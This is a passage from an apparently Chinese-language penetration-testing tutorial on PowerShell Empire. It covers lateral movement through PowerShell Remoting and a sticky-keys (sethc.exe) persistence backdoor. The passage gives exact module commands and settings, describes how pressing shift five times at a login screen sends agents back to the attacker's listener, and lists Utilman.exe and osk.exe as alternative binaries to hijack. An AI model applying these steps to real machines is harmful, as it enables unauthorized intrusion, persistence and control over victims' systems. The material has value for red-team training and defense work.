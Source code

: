 5.Powershell Remoting

PowerShell remoting是Powershell的远程管理功能，开启[Windows远程管理服务](https://msdn.microsoft.com/en-us/library/aa384426(v=vs.85).aspx)WinRM会监听5985端口，该服务默认在Windows Server 2012中是启动的，在Windows Server 2003、2008和2008 R2需要通过手动启动。

如果目标主机启用了PSRemoting，或者拥有启用它的权限的凭据，则可以使用他来进行横向渗透，使用usemodule lateral_movement/invoke_psremoting模块，如下图所示。

[![http://p1.qhimg.com/t01ed43a99f58c2e275.png](http://p1.qhimg.com/t01ed43a99f58c2e275.png)](http://p1.qhimg.com/t01ed43a99f58c2e275.png)

 

 

# 8>后门

 

------

## 1.权限持久性劫持shift后门

输入命令usemodule lateral_movement/invoke_wmi_debuggerinfo模块，输入info查看设置参数，如下图所示。

[![http://p4.qhimg.com/t010a13d7fc09e80031.png](http://p4.qhimg.com/t010a13d7fc09e80031.png)](http://p4.qhimg.com/t010a13d7fc09e80031.png)

 

这里需要设置几个参数，我们输入下面命令，如下图所示。

[![http://p2.qhimg.com/t01d06f33cce9e68f52.png](http://p2.qhimg.com/t01d06f33cce9e68f52.png)](http://p2.qhimg.com/t01d06f33cce9e68f52.png)

   set TargetBinary sethc.exe   #设置后门程序

​	set  ComputerName Dll-PC    #设置计算机名称

​	set  Listener	yu  	#设置监听线程。

```
`set` `Listener  shuteer``set` `ComputerName  WIN7-64.shuteer.testlab``set` `TargetBinary sethc.exe``execute`
```

运行后，在目标主机远程登录窗口按5次shift即可触发后门，有一个黑框一闪而过，如下图所示。

[![ ](http://p7.qhimg.com/t01f45094248a19cea0.png)](http://p7.qhimg.com/t01f45094248a19cea0.png)

这里看我们的Empire已经有反弹代理上线，这里为了截图我按了3回shift后门，所以弹回来3个代理，如下图所示。

[![http://p3.qhimg.com/t01d02c90b0fbfa228e.png](http://p3.qhimg.com/t01d02c90b0fbfa228e.png)](http://p3.qhimg.com/t01d02c90b0fbfa228e.png)

注意：sethc.exe这里有几个可以替换的选项。

A.Utilman.exe（快捷键为: Win + U）

B.osk.exe（屏幕上的键盘Win + U启动再选择）
